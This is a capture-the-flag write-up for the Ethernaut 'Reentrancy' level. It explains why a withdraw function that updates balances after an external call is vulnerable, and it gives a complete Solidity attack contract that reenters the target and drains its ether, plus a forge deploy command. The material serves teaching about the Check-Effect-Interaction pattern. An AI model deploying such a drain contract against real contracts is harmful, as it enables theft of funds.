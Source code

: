 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/10-reentrancy.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 10 - Reentrancy</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 10 - Reentrancy](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-10-reentrancy)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals

<img src="../assets/requirements/10-reentrancy-requirements.webp" width="800px"/>

## The hack

In this level, we have to drain all the funds from the contract. We have to be familiar with reentrancy attacks, and that is what this very simple example is for.

A reentrancy attack can happen after an external call to another contract. For instance, upon receiving ether, the contract can respond to the transfer. That is when we can "reenter" the contract. And that is why the "Check-Effect-Interaction" pattern or CEI matters.

In this case, the `msg.sender`'s balance is updated AFTER the external call, which leaves the door open for a reentrancy attack.

```javascript
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

How does the attack work?

Since the balance is updated after the external call, we can call the `withdraw` function, and reenter the contract via a `fallback()` function upon receiving ether. At this point, despite having already withdrawn our balance, we can withdraw again since the state hasn't been updated yet!

```javascript
// This will always be true
balances[msg.sender] >= _amount;
```

We can repeat this process until the contract is drained. The withdraw function will finally finish its execution and update our balance... a little too late.

Hence the CEI:

- <b>Check: Make sure all your inputs and conditions are correct.
- Effect: Update all states.
- Interaction: Interact with other contracts.</b>

## Solution

Let's take advantage of the `withdraw` function to reenter the contract and drain it since it lacks a proper CEI pattern.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

contract Reentered {
    address private immutable target;
    uint256 donation = 0.001 ether;

    constructor(address _target) public {
        target = _target;
    }

    receive() external payable {
        if (target.balance >= donation) {
            IReentrance(target).withdraw(donation);
        }
    }

    function attack() public payable {
        // 1. Donate so you have some funds to withdraw
        IReentrance(target).donate{value: donation}(address(this));
        // 2. Call the withdraw function to start the reentrancy
        IReentrance(target).withdraw(donation);
        // 3. The contract has been drained successfully
        require(address(target).balance == 0, "Reentrancy failed!");
        // 4. Withdraw the funds from the attacker contract
        withdraw();
    }

    function withdraw() public {
        uint256 bal = address(this).balance;
        (bool success, ) = msg.sender.call{value: bal}("");
        require(success, "Transfer Failed");
    }
}
```

Then, you can use forge scripts to deploy this contract and call the `attack` function:

```bash
forge script script/10_Reentrancy.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

> Note: Since the contract starts with `0.001 ether`, leaving its balance at 0 is fairly simple. For a more "realistic" approach, you would have to improve the calculation's method to drain the contract's balance entirely.

## Takeaway

- <b>CHECK-EFFECT-INTERACTION pattern</b> must be systematically followed.
- Use a reentrancy guard if in doubt. Better safe than sorry.

## Reference

- The DAO hack: https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942
- Advanced reentrancy on Curve pools: https://hackmd.io/@vyperlang/HJUgNMhs2

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
